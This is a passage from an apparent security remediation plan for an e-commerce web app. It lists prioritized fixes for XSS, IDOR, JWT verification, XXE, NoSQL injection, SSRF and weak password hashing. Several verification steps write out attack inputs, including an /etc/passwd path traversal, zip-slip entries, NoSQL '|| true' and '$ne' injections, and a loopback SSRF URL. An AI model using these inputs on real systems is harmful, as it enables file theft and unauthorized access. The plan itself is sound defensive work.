**Priority:** P1 - Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:55`

**How:**

1. Pass `algorithms: ['RS256']` to `expressJwt`, `jwt.verify` and `jws.verify`
2. Remove the any casts so the typed option is enforced

**Verification:** A token signed with `HS256` using the public key is rejected by all verification paths.

---

### P2 — This Sprint

<a id="m-028"></a>
#### M-028 — Encode output instead of bypassing the framework sanitizer (F-001)

**Addresses:**

- 🟠 [F-001](#f-001) — Angular sanitizer bypass causes XSS in about, search, administration

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/about/about.component.ts:119`

**How:**

1. Remove the `bypassSecurityTrustHtml` calls and render feedback comments as text with interpolation, building the star markup separately in the template.
2. Bind `searchValue` as plain text with interpolation instead of `innerHTML`.
3. Bind `orderId` with interpolation inside a code element.
4. Sanitize or encode feedback comments server-side on write.
5. Add a strict `Content-Security-Policy`.

**Verification:** Submit a feedback comment with an HTML event handler or script, open a search link with an HTML payload in q, and track an order id containing markup; confirm each renders as inert text in the About, administration, search and tracking views with no script execution.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-029"></a>
#### M-029 — Enforce basket ownership on lookup

**Addresses:**

- 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/basket.ts:19`

**How:**

1. Add an Address update handler that filters on id and the UserId from the token, and disable the generated PUT for Address.
2. Compare the path basket id with the token's basket id (bid) and return 403 on mismatch, or query by id and the authenticated user's id.
3. Compare `basket.UserId` with the authenticated user id in the checkout, retrieve, coupon and BasketItems handlers.
4. Add tests for cross-user attempts.

**Verification:** As user A, attempt to PUT user B's address, read B's basket, apply a coupon to it, update its basket items and check it out, and confirm each returns 4xx with no change.

---

<a id="m-030"></a>
#### M-030 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-003](#f-003) — JWT Stored in Script-Readable Storage

**Weaknesses addressed:** [W-009](#w-009)

**Prevents CWEs:**

- [CWE-922](https://cwe.mitre.org/data/definitions/922.html) - Insecure Storage of Sensitive Information

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/Services/request.interceptor.ts:16`

**How:**

1. Issue the session as an HttpOnly, Secure, SameSite cookie from the server and stop writing the token to `localStorage`.
2. Add CSRF protection and a strict CSP to reduce script access to session material.

**Verification:** After login, confirm `localStorage` and `document.cookie` contain no token and API calls still authenticate via the cookie.

**Reference:** [CWE-922: Insecure Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/922.html)

---

<a id="m-035"></a>
#### M-035 — Require current password

**Addresses:**

- 🟠 [F-015](#f-015) — Password change allowed without current password

**Prevents CWEs:**

- [CWE-620](https://cwe.mitre.org/data/definitions/620.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/changePassword.ts:39`

**How:**

1. Reject the request with 401 when the current password is missing or does not match the stored hash.
2. Switch the endpoint to POST with a JSON body so passwords are not in URLs and cross-site GET requests cannot trigger it.

**Verification:** Call the endpoint without the current parameter and confirm a 401 or other 4xx response and an unchanged password.

---

<a id="m-036"></a>
#### M-036 — Verify token signatures before trusting claims

**Addresses:**

- 🟠 [F-016](#f-016) — OAuth implicit flow without state, nonce or audience

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-345](https://cwe.mitre.org/data/definitions/345.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/login/login.component.ts:148`

**How:**

1. Switch to the authorization code flow with PKCE, handled by a server-side confidential client.
2. Send and verify a random state and nonce, and validate the token audience and issuer on the server before creating a session.

**Verification:** Replay a callback with a missing or mismatched state and a token issued for another client; sign-in must be rejected.

---

<a id="m-037"></a>
#### M-037 — Stop deriving passwords from the email address

**Addresses:**

- 🟠 [F-017](#f-017) — Predictable password derived from OAuth email

**Prevents CWEs:**

- [CWE-1391](https://cwe.mitre.org/data/definitions/1391.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:**

1. Remove client-side password derivation; create OAuth accounts server-side with a random secret or no password, and verify the provider token on the server.
2. Reject password logins for accounts created through OAuth.

**Verification:** Attempt a password login with `base64(reverse(email))` for an OAuth-created account and confirm it fails.

**Reference:** [CWE-1391](https://cwe.mitre.org/data/definitions/1391.html)

---

<a id="m-038"></a>
#### M-038 — Use cryptographically secure random values

**Addresses:**

- 🟠 [F-018](#f-018) — Non-cryptographic RNG for a secret/token

**Weaknesses addressed:** [W-044](#w-044)

**Prevents CWEs:**

- [CWE-330](https://cwe.mitre.org/data/definitions/330.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:53`

**How:** Use `crypto.randomBytes` / `crypto.randomUUID` / webcrypto `getRandomValues` for any security value.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-002 scanner check; it reports no match at `lib/insecurity.ts:53`, and the regression test passes.

---

<a id="m-039"></a>
#### M-039 — Enforce JWT signature and algorithm verification (F-019)

**Addresses:**

- 🟠 [F-019](#f-019) — JWT decode used without signature verification

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-345](https://cwe.mitre.org/data/definitions/345.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:56`

**How:** Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the AUTHZ-006 scanner check; it reports no match at `lib/insecurity.ts:56`, and the regression test passes.

---

<a id="m-040"></a>
#### M-040 — Enforce JWT signature and algorithm verification (F-020)

**Addresses:**

- 🟠 [F-020](#f-020) — Insecure JWT Verification

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:53`

**How:** Add `algorithms: ['RS256']` (or matching) to the `expressJwt()` options object.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the AUTHZ-007 scanner check; it reports no match at `lib/insecurity.ts:53`, and the regression test passes.

---

<a id="m-041"></a>
#### M-041 — Replace security-question recovery with a CSPRNG reset token delivered…

**Addresses:**

- 🟠 [F-021](#f-021) — Password reset accepts a security-question answer

**Prevents CWEs:**

- [CWE-640](https://cwe.mitre.org/data/definitions/640.html) - Weak Password Recovery Mechanism

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/resetPassword.ts:10`

**How:** Replace security-question recovery with a CSPRNG reset token delivered through a verified out-of-band channel; expire it quickly and invalidate it after one use.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the AUTHN-001 scanner check; it reports no match at `routes/resetPassword.ts:10`, and the regression test passes.

---

<a id="m-042"></a>
#### M-042 — Strengthen recovery with emailed one-time token

**Addresses:**

- 🟠 [F-022](#f-022) — Password reset relies on guessable security

**Weaknesses addressed:** [W-012](#w-012)

**Prevents CWEs:**

- [CWE-640](https://cwe.mitre.org/data/definitions/640.html) - Weak Password Recovery Mechanism

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/resetPassword.ts:41`

**How:**

1. Use an emailed single-use token instead of a security answer
2. Key rate limits on the real client IP and the target account, not a client header

**Verification:** Repeated wrong answers with varied X-Forwarded-For values are throttled per account.

---

<a id="m-043"></a>
#### M-043 — Constrain file paths to a safe base directory (F-023)

**Addresses:**

- 🟠 [F-023](#f-023) — Arbitrary server file read

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/dataErasure.ts:104`

**How:**

1. Remove the user-supplied layout or map it to a fixed set of view names.
2. If paths are needed, resolve against a views root and verify containment.

**Verification:** Post `layout=`../..`/etc/passwd` and confirm the request is rejected.

---

<a id="m-044"></a>
#### M-044 — Validate zip entry paths against the target directory

**Addresses:**

- 🟠 [F-024](#f-024) — Zip entry path traversal on complaint upload

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:34`

**How:**

1. Resolve each entry against the uploads/complaints directory and reject any result that does not start with that directory plus separator.
2. Write to the resolved absolute path instead of the raw entry name.
3. Enforce a total uncompressed size and entry count, and reject unexpected file types.

**Verification:** Upload a zip containing a ../..`/ftp/x` entry and confirm it is skipped and nothing is written outside uploads/complaints.

---

<a id="m-045"></a>
#### M-045 — Remove evaluation of order data

**Addresses:**

- 🟠 [F-025](#f-025) — Request body orderLinesData evaluated by notevil in vm

**Weaknesses addressed:** [W-001](#w-001)

**Prevents CWEs:**

- [CWE-95](https://cwe.mitre.org/data/definitions/95.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:**

1. Parse `orderLinesData` as JSON and validate it against a schema instead of evaluating it.
2. Remove notevil and vm execution of request data.
3. If evaluation is truly required, run it in an isolated process or worker with resource limits.

**Verification:** Post an expression payload as `orderLinesData` and confirm it is rejected as invalid input without being evaluated.

---

<a id="m-046"></a>
#### M-046 — Guard Product PUT with authorization

**Addresses:**

- 🟠 [F-026](#f-026) — Unauthenticated modification of products

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:503`

**How:**

1. Register `security.isAuthorized()` or `denyAll()` for PUT `/api/Products/:id` before `finale.initialize`.
2. Restrict write access to admin roles.

**Verification:** Send an unauthenticated PUT `/api/Products/1` and expect 401.

---

<a id="m-047"></a>
#### M-047 — Credit wallets only after a verified payment

**Addresses:**

- 🟠 [F-027](#f-027) — Wallet credited with unverified body amount

**Prevents CWEs:**

- [CWE-472](https://cwe.mitre.org/data/definitions/472.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/wallet.ts:27`

**How:**

1. Charge the card through a payment provider before crediting.
2. Validate the amount as positive and bounded.

**Verification:** Send an amount without a completed payment and expect rejection with the balance unchanged.

---

<a id="m-048"></a>
#### M-048 — Enforce authorization on the server

**Addresses:**

- 🟠 [F-028](#f-028) — Expired coupon campaigns accepted from client-supplied

**Prevents CWEs:**

- [CWE-602](https://cwe.mitre.org/data/definitions/602.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/order.ts:201`

**How:**

1. Compare the current server date with the campaign validity window instead of a client-supplied value.
2. Remove expired campaigns and issue server-signed single-use coupon codes.

**Verification:** Submit an expired campaign coupon at checkout and confirm no discount is applied.

**Reference:** [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html)

---

<a id="m-049"></a>
#### M-049 — Disable external entity and DTD loading

**Addresses:**

- 🟠 [F-029](#f-029) — XML parser resolves external entities and DTDs

**Weaknesses addressed:** [W-020](#w-020)

**Prevents CWEs:**

- [CWE-611](https://cwe.mitre.org/data/definitions/611.html) - XML External Entity (XXE)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/xml.ts:35`

**How:**

1. Remove `XML_PARSE_NOENT` and `XML_PARSE_DTDLOAD` and do not register filesystem input providers.
2. Reject documents containing DOCTYPE declarations.

**Verification:** Submit an XML document with an external file entity and confirm the file content is not in the output.

---

<a id="m-050"></a>
#### M-050 — Enforce object-level (ownership) authorization (F-030)

**Addresses:**

- 🟠 [F-030](#f-030) — Basket item update lacks ownership check and field

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/basketItems.ts:68`

**How:**

1. Compare `item.BasketId` with the authenticated user's bid and return 401/403 otherwise.
2. Allow only quantity from the body; ignore BasketId and ProductId so clients cannot change them on update.

**Verification:** As user A update user B's item id, also setting BasketId in the body, and confirm a 403 rejection and no change.

---

<a id="m-051"></a>
#### M-051 — Replace \$where string with structured query

**Addresses:**

- 🟠 [F-033](#f-033) — NoSQL injection in product reviews \$where

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-943](https://cwe.mitre.org/data/definitions/943.html) - Special-Element Injection in Data Query

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/showProductReviews.ts:36`

**How:**

1. Always coerce `req.params.id` with `Number()` and reject NaN.
2. Replace the \$where string with an equality filter such as { product: id }.
3. Remove the global sleep helper from the server.

**Verification:** Request `/rest/products/1%20%7C%7C%20true/reviews` and confirm a 400 response or empty result rather than altered matching.

**Reference:** [CWE-943: Improper Neutralization of Special Elements in Data Query Logic (NoSQL Injection)](https://cwe.mitre.org/data/definitions/943.html)

---

<a id="m-052"></a>
#### M-052 — Query orders by exact orderId match

**Addresses:**

- 🟠 [F-034](#f-034) — NoSQL injection in order tracking \$where predicate

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-943](https://cwe.mitre.org/data/definitions/943.html) - Special-Element Injection in Data Query

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/trackOrder.ts:18`

**How:**

1. Replace the \$where string with `ordersCollection.find({ orderId: id })` using the sanitized string.
2. Always apply the character allow-list regardless of challenge flags, and remove the conditional that bypasses sanitization.

**Verification:** Send an id containing a quote and || true and confirm at most the exact order, or none, is returned.

**Reference:** [CWE-943: Improper Neutralization of Special Elements in Data Query Logic (NoSQL Injection)](https://cwe.mitre.org/data/definitions/943.html)

---

<a id="m-053"></a>
#### M-053 — Enforce review ownership and scalar ids

**Addresses:**

- 🟠 [F-035](#f-035) — NoSQL operator injection and missing

**Prevents CWEs:**

- [CWE-943](https://cwe.mitre.org/data/definitions/943.html) - Special-Element Injection in Data Query

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:18`

**How:**

1. Require `req.body.id` to be a string and reject objects.
2. Remove `multi:true`.
3. Filter on both _id and author equal to the authenticated user email.

**Verification:** PATCH with id `{"$ne":-1}` and confirm 400 with no modified reviews; PATCH another user's review id and confirm no change.

**Reference:** [CWE-943: Improper Neutralization of Special Elements in Data Query Logic (NoSQL Injection)](https://cwe.mitre.org/data/definitions/943.html)

---

<a id="m-054"></a>
#### M-054 — Validate and bound top-up amount

**Addresses:**

- 🟠 [F-036](#f-036) — Wallet top-up accepts unvalidated attacker-chosen balance

**Prevents CWEs:**

- [CWE-1284](https://cwe.mitre.org/data/definitions/1284.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/wallet.ts:27`

**How:**

1. Require balance to be a positive finite number within a fixed maximum.
2. Credit the wallet only after a payment authorization succeeds.

**Verification:** PUT a negative or very large balance and expect 400 with the wallet unchanged.

---

<a id="m-055"></a>
#### M-055 — Remove server-side evaluation of untrusted input (F-037)

**Addresses:**

- 🟠 [F-037](#f-037) — User-controlled username compiled as Pug template

**Weaknesses addressed:** [W-018](#w-018)

**Prevents CWEs:**

- [CWE-1336](https://cwe.mitre.org/data/definitions/1336.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/userProfile.ts:87`

**How:**

1. Keep the template static and supply the username as an escaped render local.
2. Validate username characters on write.

**Verification:** Store a username with Pug interpolation syntax and confirm it renders as inert escaped text.

---

<a id="m-056"></a>
#### M-056 — Validate chat messages to user role only

**Addresses:**

- 🟠 [F-038](#f-038) — Chatbot accepts client-supplied message roles and history

**Prevents CWEs:**

- [CWE-1427](https://cwe.mitre.org/data/definitions/1427.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/chat.ts:206`

**How:**

1. Validate messages with a schema allowing only user/assistant text with length limits.
2. Drop client-supplied system and tool roles.

**Verification:** Send a system-role message and confirm 400.

---

<a id="m-057"></a>
#### M-057 — Remove public key and log directories

**Addresses:**

- 🟠 [F-039](#f-039) — Unauthenticated key and log file exposure

**Prevents CWEs:**

- [CWE-538](https://cwe.mitre.org/data/definitions/538.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/keyServer.ts:14`

**How:**

1. Remove the `serveIndex` and file routes for encryptionkeys and logs from the public app.
2. Store keys and logs outside the web root and require admin authentication for log access.

**Verification:** Request `/encryptionkeys/jwt.pub` and `/support/logs` unauthenticated and confirm 401 or 404.

**Reference:** [CWE-538](https://cwe.mitre.org/data/definitions/538.html)

---

<a id="m-058"></a>
#### M-058 — Disable entity substitution and DTD loading

**Addresses:**

- 🟠 [F-040](#f-040) — XML external entity expansion in upload parser
- 🟠 [F-041](#f-041) — XML parser resolves external entities in uploads

**Weaknesses addressed:** [W-021](#w-021)

**Prevents CWEs:**

- [CWE-611](https://cwe.mitre.org/data/definitions/611.html) - XML External Entity (XXE)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/xml.ts:35`

**How:**

1. Remove `XML_PARSE_NOENT` and `XML_PARSE_DTDLOAD` and do not register filesystem input providers.
2. Do not echo parsed content in error responses.
3. Remove `XML_PARSE_NOENT` and `XML_PARSE_DTDLOAD` from the parse options.
4. Do not register filesystem input providers for untrusted XML.

**Verification:** Upload XML with an external entity pointing at a local file and confirm the response does not contain its contents.

**Reference:** [CWE-611: Improper Restriction of XML External Entity Reference (XXE)](https://cwe.mitre.org/data/definitions/611.html)

---

<a id="m-059"></a>
#### M-059 — Enforce object ownership on user reads

**Addresses:**

- 🟠 [F-042](#f-042) — Any authenticated user can read other users' records and all complaints

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:365`

**How:**

1. Replace the plain `isAuthorized` guard on GET `/api/Users/:id` with a handler that compares `req.params.id` with the authenticated user id or requires the admin role.
2. Require admin for the GET `/api/Users` list route.
3. Exclude `deluxeToken` and `lastLoginIp` from the generated User resource for non-owners.
4. For GET `/api/Complaints`, add `appendUserId` and a finale list hook that filters on UserId, or deny the list route for non-admin roles.

**Verification:** Log in as a customer: GET `/api/Users/`&lt;another id&gt; returns 403 while the own id returns 200, and GET `/api/Complaints` returns only that user's rows.

---

<a id="m-060"></a>
#### M-060 — Hash passwords with a strong, salted algorithm (F-043)

**Addresses:**

- 🟠 [F-043](#f-043) — Password verification relies on unsalted MD5

**Weaknesses addressed:** [W-044](#w-044)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/changePassword.ts:39`

**How:**

1. Replace the `MD5` hash with argon2id or bcrypt with a tuned cost, and rehash existing passwords on next login.
2. Enforce a minimum length and strength check server-side in registration and change-password handlers.

**Verification:** Unit test that a stored password hash has the adaptive-hash prefix and that a short or weak password is rejected with 4xx.

---

<a id="m-061"></a>
#### M-061 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-044](#f-044) — Server-side request forgery in profile

**Prevents CWEs:**

- [CWE-918](https://cwe.mitre.org/data/definitions/918.html) - Server-Side Request Forgery (SSRF)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:**

1. Allow only https URLs and resolve the host, rejecting loopback, link-local and private ranges.
2. Validate that the response content type is an image.
3. Disable redirect following or revalidate each hop.

**Verification:** Submit `imageUrl`=`http://127.0.0.1:80/` and metadata URLs and confirm they are rejected before any request is made.

**Reference:** [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)

---

<a id="m-062"></a>
#### M-062 — Use a salted adaptive password hash

**Addresses:**

- 🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter

**Weaknesses addressed:** [W-044](#w-044)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:76`

**How:**

1. Hash passwords with argon2id, bcrypt or scrypt, with a per-user salt and sufficient cost factor, instead of `security.hash`.
2. Re-hash existing `MD5` hashes on the next successful login, or force a password reset.
3. Enforce a minimum password length and strength check at registration and password change.

**Verification:** Create a user and confirm the stored password column holds a salted adaptive hash, and that the same password produces different hashes for different users.

**Reference:** [OWASP Cheat Sheet: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)

---

<a id="m-063"></a>
#### M-063 — Return minimal fields from password reset

**Addresses:**

- 🟠 [F-046](#f-046) — Password reset response returns full user record

**Weaknesses addressed:** [W-029](#w-029)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/resetPassword.ts:46`

**How:**

1. Return only a success status instead of the user model.
2. Require the current second factor before allowing reset for 2FA-enrolled users.

**Verification:** Reset a 2FA-enrolled test account and confirm the response contains no password or `totpSecret`.

---

<a id="m-064"></a>
#### M-064 — Use modern cryptographic hash and KDF algorithms

**Addresses:**

- 🟠 [F-047](#f-047) — Unsalted MD5 password hashing and no strength policy

**Weaknesses addressed:** [W-044](#w-044)

**Prevents CWEs:**

- [CWE-328](https://cwe.mitre.org/data/definitions/328.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:41`

**How:**

1. Replace `security.hash` for passwords with argon2id or bcrypt using a per-user salt.
2. Rehash existing passwords on next successful login.
3. Enforce a minimum length policy on registration, change and reset.

**Verification:** Stored password hashes use a salted adaptive format, and short passwords are rejected on registration, change and reset.

**Reference:** [OWASP Cheat Sheet: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)

---

<a id="m-066"></a>
#### M-066 — Rate-limit and lock out repeated authentication attempts (F-049)

**Addresses:**

- 🟠 [F-049](#f-049) — Chat endpoint has no request or consumption limits

**Weaknesses addressed:** [W-014](#w-014)

**Prevents CWEs:**

- [CWE-770](https://cwe.mitre.org/data/definitions/770.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/chat.ts:191`

**How:**

1. Require authentication and add per-user rate limiting.
2. Cap messages count/length and set `maxOutputTokens`.

**Verification:** Send oversized history and rapid requests and confirm 413/429.

---

<a id="m-067"></a>
#### M-067 — Validate the BasketId that is actually stored

**Addresses:**

- 🟠 [F-050](#f-050) — Basket item add checks different BasketId than it

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/basketItems.ts:42`

**How:**

1. Parse the body once and reject duplicate keys
2. Set BasketId from the authenticated user's basket, ignoring the body

**Verification:** Send duplicate BasketId keys with a foreign last value and expect 401.

---

<a id="m-068"></a>
#### M-068 — Derive review author from authenticated session

**Addresses:**

- 🟠 [F-051](#f-051) — Review author taken from request body

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/createProductReviews.ts:26`

**How:**

1. Register the route behind `security.isAuthorized()`.
2. Set author from the authenticated user's email and ignore `req.body.author`.

**Verification:** Send a PUT with a foreign author value and confirm the stored author equals the caller or the request is rejected.

---

<a id="m-069"></a>
#### M-069 — Bind review updates to the authenticated author

**Addresses:**

- 🟠 [F-052](#f-052) — Review update lacks ownership check

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:18`

**How:**

1. Query by _id coerced to a string and author equal to the authenticated user's email
2. Remove `multi:true` and reject non-string ids

**Verification:** As user A, PATCH a review authored by user B and expect no modification.

---

<a id="m-070"></a>
#### M-070 — Require authentication and scope recycle lookups to caller

**Addresses:**

- 🟠 [F-053](#f-053) — Recycle records readable by any caller by ID

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:388`

**How:**

1. Register `security.isAuthorized()` and `security.appendUserId()` before the handler.
2. Add UserId: `req.body.UserId` to the `findAll` where clause and stop passing the raw `JSON.parse` of the param.

**Verification:** Request another user's recycle ID with and without a token and confirm 401 or an empty result.

---

<a id="m-071"></a>
#### M-071 — Require a verified payment before the deluxe upgrade

**Addresses:**

- 🟠 [F-057](#f-057) — Deluxe upgrade skips payment verification

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/deluxe.ts:43`

**How:**

1. Reject any `paymentMode` other than wallet or card.
2. Move the role update after a successful payment step.

**Verification:** POST without `paymentMode` as a customer and expect a 400 with the role unchanged.

---

<a id="m-072"></a>
#### M-072 — Restrict key and log routes to administrators

**Addresses:**

- 🟠 [F-058](#f-058) — Encryption keys and logs served without authorization

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:278`

**How:**

1. Remove the public routes or place them behind `isAuthorized` plus an admin role check
2. Move keys out of the web-served tree

**Verification:** Request `/encryptionkeys/` and `/support/logs/` without a token and expect 401/403.

---

<a id="m-073"></a>
#### M-073 — Enforce server-side authorization on every endpoint (F-059)

**Addresses:**

- 🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the AUTHZ-008 scanner check; it reports no match at `server.ts:310`, and the regression test passes.

---

<a id="m-074"></a>
#### M-074 — Require an admin role for user listing

**Addresses:**

- 🟠 [F-060](#f-060) — Any authenticated user can list all user accounts

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:363`

**How:**

1. Add a role check such as `isAccounting` or an admin check to GET `/api/Users`.
2. Limit the returned attributes.

**Verification:** Call GET `/api/Users` with a customer token and confirm 403.

---

<a id="m-075"></a>
#### M-075 — Restrict product creation to administrators

**Addresses:**

- 🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:369`

**How:**

1. Replace `isAuthorized` with an admin-role check, or `denyAll`.
2. Use an explicit field allow-list for product writes.

**Verification:** POST `/api/Products` with a customer token and confirm 403.

---

<a id="m-076"></a>
#### M-076 — Guard product updates with an admin role check

**Addresses:**

- 🟠 [F-063](#f-063) — Unauthenticated product update

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:501`

**How:**

1. Register a role-checking middleware for PUT `/api/Products/:id` before `finale.initialize`.
2. Restrict updatable fields to an explicit allow-list.

**Verification:** An unauthenticated or customer PUT to `/api/Products/1` returns 401 or 403 and leaves the product unchanged.

---

<a id="m-077"></a>
#### M-077 — Use one parsed BasketId for check and save

**Addresses:**

- 🟠 [F-064](#f-064) — Duplicate JSON key bypasses basket ownership check

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-863](https://cwe.mitre.org/data/definitions/863.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/basketItems.ts:37`

**How:**

1. Reject bodies with duplicate BasketId keys or use the standard parsed body.
2. Check the exact value that is persisted against the token's bid.

**Verification:** POST a body with two BasketId keys (own first) and confirm the request is rejected.

---

<a id="m-078"></a>
#### M-078 — Enforce coupon cap and eligibility

**Addresses:**

- 🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization

